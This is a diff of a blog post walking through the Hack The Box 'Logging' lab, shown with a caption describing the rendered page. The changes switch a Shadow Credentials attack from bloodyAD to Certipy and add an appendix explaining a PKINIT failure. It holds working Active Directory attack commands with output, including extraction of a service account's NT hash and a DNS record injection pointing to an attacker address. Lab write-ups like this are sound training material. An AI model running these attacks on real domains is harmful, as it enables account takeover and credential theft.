

Before and after one commit to thesecretmyth/thesecretmyth.github.io, a Jekyll site: the page built from _posts/2026-07-19-htb-logging.md, in a window 1280 px wide and 1400 px high, scrolled down 9486 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

Commit message:
HTB: Machine: Logging

````diff
--- a/_posts/2026-07-19-htb-logging.md
+++ b/_posts/2026-07-19-htb-logging.md
@@ -346,28 +346,47 @@
 
 By writing a custom certificate to the `msDS-KeyCredentialLink` attribute of `MSA_HEALTH$`, we can trick the Key Distribution Center (KDC) into issuing a Kerberos Ticket Granting Ticket (TGT) for the account using our attacker-controlled asymmetric key pair.
 
-## 3.1 Executing the Attack (bloodyAD)
+## 3.1 Executing the Attack via Certipy
 
-With a valid TGT cached, we utilize `bloodyAD` to orchestrate the Shadow Credentials attack.
+With a valid TGT cached, we utilize `Certipy` to orchestrate the Shadow Credentials attack.
 
-We use the `env KRB5CCNAME=svc_recovery.ccache` inline variable to force `bloodyAD` to authenticate via our cached Kerberos ticket (`-k`). The tool automatically generates an RSA key pair, writes the public key to the target's `msDS-KeyCredentialLink` attribute, and performs the PKINIT authentication to retrieve the target's TGT and NT hash.
+We use the `env KRB5CCNAME=svc_recovery.ccache` inline variable to force `Certipy` to authenticate via our cached Kerberos ticket (`-k -no-pass`). Critically, we explicitly specify both `-dc-host dc01.logging.htb` and `-dc-ip $targetIp` to ensure proper hostname validation during the PKINIT handshake.
 
 ```Bash
-# Inject Shadow Credentials and retrieve the NT hash
+# Execute Shadow Credentials attack with proper DNS validation
 ➜ env KRB5CCNAME=svc_recovery.ccache \
 fake_time dc01.logging.htb \
-bloodyAD -H dc01.logging.htb -d logging.htb \
-    -u 'svc_recovery' -k \
-    add shadowCredentials 'msa_health$'
+certipy shadow auto \
+    -u svc_recovery -k -no-pass \
+    -account 'msa_health$' \
+    -target dc01.logging.htb -dc-host dc01.logging.htb -dc-ip $targetIp
 
-...[snip]...
-[+] KeyCredential generated with following sha256 of RSA key: 8068eb20e242831db3046e20707b7bf5dfb663d2521d7db8be5e6f05498a2cfd
-[+] TGT stored in ccache file msa_health_vW.ccache
+Certipy v5.1.0 - by Oliver Lyak (ly4k)
 
-NT: 603fc24ee01a9409f83c9d1d701485c5
+[*] Targeting user 'msa_health$'
+[*] Generating certificate
+[*] Certificate generated
+[*] Generating Key Credential
+[*] Key Credential generated with DeviceID 'ee4c53ab50f84fdb82df149258963b92'
+[*] Adding Key Credential with device ID 'ee4c53ab50f84fdb82df149258963b92' to the Key Credentials for 'msa_health$'
+[*] Successfully added Key Credential with device ID 'ee4c53ab50f84fdb82df149258963b92' to the Key Credentials for 'msa_health$'
+[*] Authenticating as 'msa_health$' with the certificate
+[*] Certificate identities:
+[*]     No identities found in this certificate
+[*] Using principal: 'msa_health$@logging.htb'
+[*] Trying to get TGT...
+[*] Got TGT
+[*] Saving credential cache to 'msa_health.ccache'
+[*] Wrote credential cache to 'msa_health.ccache'
+[*] Trying to retrieve NT hash for 'msa_health$'
+[*] Restoring the old Key Credentials for 'msa_health$'
+[*] Successfully restored the old Key Credentials for 'msa_health$'
+[*] NT hash for 'msa_health$': 603fc24ee01a9409f83c9d1d701485c5
 ```
 
-**Result:** The attack successfully compromises the `MSA_HEALTH$` account, yielding its NT Hash (`603fc24ee01a9409f83c9d1d701485c5`) and a valid TGT (`msa_health_vW.ccache`), granting us full access to its privileges.
+**Result:** Certipy successfully negotiated the PKINIT authentication, extracted the NT Hash (`603fc24ee01a9409f83c9d1d701485c5`), and cached a valid TGT (`msa_health.ccache`), granting us full access to the service account.
+
+> Note: `bloodyAD` can also execute Shadow Credentials attacks, but reliability depends on DC configuration and Kerberos strictness. See Appendix-A for technical details on PKINIT failures.
 
 ---
 
@@ -1010,7 +1029,54 @@
 
 # 8. Appendix
 
-## Appendix A: Alternative Privilege Escalation Path (Direct Domain Dominance)
+## Appendix A: Technical Deep-Dive - PKINIT Failures
+
+### Exploitation: Shadow Credentials via bloodyAD (with Caveats)
+
+Initially, `bloodyAD` was used to orchestrate the Shadow Credentials attack using our cached Kerberos ticket (`-k`).
+
+```Bash
+# Inject Shadow Credentials and retrieve the NT hash
+➜ env KRB5CCNAME=svc_recovery.ccache \
+fake_time dc01.logging.htb \
+bloodyAD --host dc01.logging.htb -d logging.htb \
+    -u 'svc_recovery' -k \
+    add shadowCredentials 'msa_health$'
+
+...[snip]...
+[+] KeyCredential generated with following sha256 of RSA key: 8068eb20e242831db3046e20707b7bf5dfb663d2521d7db8be5e6f05498a2cfd
+[+] TGT stored in ccache file msa_health_vW.ccache
+
+NT: 603fc24ee01a9409f83c9d1d701485c5
+```
+
+However, in persistent environments, the attack fails during the PKINIT authentication phase:
+
+```Bash
+➜ env KRB5CCNAME=svc_recovery.ccache \
+fake_time dc01.logging.htb \
+bloodyAD -H dc01.logging.htb -d logging.htb \
+        -u 'svc_recovery' -k \
+        add shadowCredentials 'msa_health$'
+
+[+] KeyCredential generated with following sha256 of RSA key: 0699bd312a8b60b08f48200619dea7ebcee1ec09d874dfffc094671f08ec875b
+[-] PKINIT failed on DC 10.129.62.234, you must find a Kerberos server with a certification authority!
+[-] Retry on a working KDC and do:
+badNTPKInit 'kerberos+pfx://logging.htb\msa_health$@10.129.62.234/?certdata=msa_health_Ww.pfx&timeout=350'
+[+] PKINIT PFX certificate saved at: msa_health_Ww.pfx
+...[snip]...
+kerbad.protocol.errors.KerberosError:  Error Name: KDC_ERR_PADATA_TYPE_NOSUPP Detail: "KDC has no support for PADATA type (pre-authentication data)"
+```
+
+**Technical Analysis of the Failure**:
+
+The attack failed with `KDC_ERR_PADATA_TYPE_NOSUPP` during the PKINIT authentication phase. This occurred because `bloodyAD`'s underlying Kerberos library (`kerbad`) automatically resolved the DC to an IP address (`10.129.62.234`). During the TLS handshake, this caused a Subject Alternative Name (SAN) mismatch against the Domain Controller's certificate, prompting the KDC to reject our pre-authentication data.
+
+**Recommendation**: Use `Certipy` for Shadow Credentials attacks in strict Kerberos environments. `bloodyAD` remains useful for other LDAP-based attacks that don't require PKINIT.
+
+---
+
+## Appendix B: Alternative Privilege Escalation Path (Direct Domain Dominance)
 
 If you prefer a stealthier approach—or want to avoid catching an interactive reverse shell and manually resetting the Administrator password—you can modify the rogue WSUS payload to directly elevate an account we already control.
 
@@ -1065,7 +1131,7 @@
 
 ---
 
-## Appendix B: Remote Identity Pivot (TGT Extraction)
+## Appendix C: Remote Identity Pivot (TGT Extraction)
 
 Rather than performing certificate enrollment directly on the target host (which requires dropping more binaries or executing complex commands on the DC), we can "teleport" our identity back to our attacker machine. This method is cleaner and allows us to use our full suite of local tools.
 
@@ -1122,7 +1188,7 @@
 ```bash
 ➜ fake_time dc01.logging.htb \
 env KRB5CCNAME=jaylee.clifton.ccache \
-bloodyAD -H dc01.logging.htb -d logging.htb \
+bloodyAD --host dc01.logging.htb -d logging.htb \
     -u 'jaylee.clifton' -k \
     add dnsRecord 'wsus' "10.10.16.25"
 [+] wsus has been successfully added
````
